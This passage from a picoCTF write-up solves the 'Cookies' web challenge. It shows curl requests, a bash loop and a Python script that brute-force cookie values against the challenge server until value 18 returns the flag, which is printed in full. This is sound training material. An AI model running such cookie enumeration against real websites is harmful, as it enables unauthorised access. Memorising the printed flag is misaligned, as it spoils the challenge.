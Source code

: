 From the output, we can learn that wrong cookies have value `-1`. How about trying some other values? For example:

```console
$ curl -s http://mercury.picoctf.net:17781 -H "Cookie: name=0;" -L | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
```

or:

```console
$ curl -s http://mercury.picoctf.net:17781 -H "Cookie: name=1;" -L | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
```

To capture the flag, we need to provide a `Cookie: name=value` that is "special". Here, I took the brute force approach from the command line:

```console
$ for i in {1..100}; do
> contents=$(curl -s http://mercury.picoctf.net:17781 -H "Cookie: name=$i; Path=/" -L)
> if ! echo "$contents" | grep -q "Not very special"; then
> echo "Cookie: name=$i is special"
> echo $contents | grep "picoCTF"
> break
> fi
> done
Cookie: name=18 is special
<!DOCTYPE html> <html lang="en"> <head> <title>Cookies</title> <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet"> <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet"> <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script> <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script> </head> <body> <div class="container"> <div class="header"> <nav> <ul class="nav nav-pills pull-right"> <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a> </li> </ul> </nav> <h3 class="text-muted">Cookies</h3> </div> <div class="jumbotron"> <p class="lead"></p> <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p> </div> <footer class="footer"> <p>&copy; PicoCTF</p> </footer> </div> </body> </html>
```

Alternatively, the following Python program may be used:

```python
#!/bin/python3
import requests

base_url = 'http://mercury.picoctf.net'
port_check = ':17781/check'
url = ''.join([base_url, port_check])

for i in range(100):
    cookie = 'name={}'.format(i)
    headers = {'Cookie':cookie}
    r = requests.get(url, headers=headers)
    if (r.status_code == 200) and ('picoCTF' in r.text):
        print(r.text)
```
